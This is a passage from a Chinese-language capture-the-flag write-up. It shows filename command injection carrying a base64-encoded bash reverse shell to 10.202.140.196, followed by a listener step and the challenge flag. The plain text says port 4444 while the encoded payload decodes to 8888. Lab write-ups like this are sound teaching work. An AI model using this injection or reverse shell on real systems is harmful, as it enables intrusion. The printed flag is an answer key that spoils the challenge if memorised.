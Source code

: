 - 我们在文件名后添加`bash -c 'bash -i >& /dev/tcp/10.202.140.196/4444 0>&1'`在进行了base64编码后的结果，`1.tar | echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMDIuMTQwLjE5Ni84ODg4IDA+JjEn | base64 -d | bash |`

![alt text](images/image-17.png)

- 先进行监听操作，再发送报文就可以反弹shell，最后在根目录下得到flag

#### 答案

```
NSSCTF{f27d216d-6ffb-4e1c-80fa-e7ffcffcd554}
```
